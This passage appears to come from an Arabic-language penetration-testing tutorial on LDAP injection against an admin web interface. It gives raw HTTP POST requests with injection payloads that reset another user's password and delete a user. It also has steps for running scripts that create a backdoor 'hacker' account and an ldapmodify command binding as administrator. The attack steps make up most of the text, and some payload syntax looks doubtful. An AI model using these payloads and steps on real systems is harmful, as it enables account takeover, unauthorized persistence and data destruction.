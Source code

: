 | أتمتة إضافة مستخدم           | `python3 add_user.py`                                                             | Add new user `hacker`                                                             | لإنشاء مستخدم جديد تلقائيًا.                                                    |

---

## مثال عملي باستخدام Burp Suite والسكربتات
1. **إعداد Burp Suite**:
   - اضبط الوكيل إلى `127.0.0.1:8080`.
   - اختبر واجهة `/admin/change_password`:
     ```
     POST /admin/change_password HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded

     username=user1*)(uid=user1)(userPassword=newpass123)&new_password=anything
     ```
   - تحقق من الاستجابة (مثل "Password changed").
2. **تعديل كلمة المرور**:
   - استخدم `modify_password.py` لتعديل كلمات مرور `user1` و`user2`.
   - شغّل: `python3 modify_password.py`
   - تحقق من التعديل بتسجيل الدخول بـ `user1:newpass123`.
3. **إضافة مستخدم جديد**:
   - استخدم `add_user.py` لإضافة `hacker`.
   - شغّل: `python3 add_user.py`
   - تحقق بتسجيل الدخول بـ `hacker:hacker123`.
4. **حذف مستخدم**:
   - أرسل طلب حذف في Burp Suite:
     ```
     POST /admin/delete_user HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded

     username=user1)(uid=user1)(delete=uid=user1,dc=domain,dc=com)
     ```
   - تحقق من الحذف بمحاولة تسجيل الدخول بـ `user1`.
5. **استخدام `ldapmodify`**:
   - أنشئ ملف `modify_user1.ldif` وشغّل:
     ```
     ldapmodify -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -f modify_user1.ldif
     ```
   - تحقق من التعديل بتسجيل الدخول.

---
